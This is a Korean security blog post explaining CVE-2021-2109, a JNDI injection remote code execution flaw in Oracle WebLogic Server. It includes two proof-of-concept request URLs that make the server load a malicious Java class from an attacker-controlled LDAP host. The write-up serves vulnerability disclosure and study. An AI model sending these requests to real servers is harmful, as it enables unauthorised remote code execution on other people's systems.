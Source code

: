 ```yaml
---
title: "[하루한줄] CVE-2021-2109 : 오라클 Weblogic Server 원격 코드 실행 취약점"
author: L0ch
tags: [L0ch, cve, oracle, rce, jndi injection]
categories: [1day1line]
date: 2021-01-26 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

[Weblogic Server remote code execution vulnerability warning (CVE-2021-2109)](https://mp.weixin.qq.com/s/wX9TMXl1KVWwB_k6EZOklw)

## Target

Oracle WebLogic Server 10.3.6.0.0, 12.1.3.0.0, 12.2.1.3.0, 12.2.1.4.0 및 14.1.1.0.0

## Explain
오라클이 개발한 자바 웹 어플리케이션 서버인 Oracle WebLogic Server에서 JNDI Injection을 통한 원격 코드 실행 취약점의 세부 정보가 공개되었습니다.

> JNDI(Java Naming and Directory Interface) : 자바 애플리케이션에서 외부 디렉터리 서비스에 접근하기 위한 API로, 원격 서버의 객체를 bind 해 애플리케이션에서 접근할 수 있다.



해당 취약점은 두 클래스에서 발생하며 취약점이 발생하는 첫 번째 클래스인 `com.bea.console.handles.JndiBindingHandle` 에서는 바인딩할 JNDI의 `context`, `bindName`, `serverName` 정보를 파라미터로 받아 이를 인스턴스화 하고 `JNDIBindingAction` 에서 처리합니다. 각 파라미터의 의미와 공격 조건은 다음과 같습니다.

- `context` : 원격 바인딩할 JNDI 서버 호스트

  - JNDI 서버로 구성한 해커의 호스트

- `bindName`: 바인딩할 JNDI 클래스 이름

  - 악성 코드를 실행하는 java 클래스 파일 이름

- `serverName` : 바인딩할 서버 이름

  - `AdminServer`

- 각 필드는 세미콜론 `;` 으로 구분됩니다.

  <br>

해커의 서버 포트 1088에 악성 코드를 실행하는 java 클래스 파일 `exploit` 이 존재한다면 PoC는 아래와 같습니다.

```java
http://[victim_host]/console/consolejndi.portal?_pageLabel=JNDIBindingPageGeneral&_nfpb=true&JNDIBindingPortlethandle=com.bea.console.handles.JndiBindingHandle("ldap://[attacker_host];1:1088/exploit;AdminServer")
```

두 번째  `com.bea.console.handles.JndiContextHandle` 클래스에서는 `bindName`이 포함된 `context`와 `serverName`만을 받아 위와 동일한 환경에서 다음 PoC로 원격 코드 실행이 가능합니다.

```java
http://[victim_host]/console/console.portal?_nfpb=true&_pageLabel=EJBTestHomePage&EJBTestHomePagehandle=com.bea.console.handles.JndiContextHandle("ldap://[attacker_host]:1088/exploit;AdminServer")
```



## Reference

https://github.com/Al1ex/CVE-2021-2109
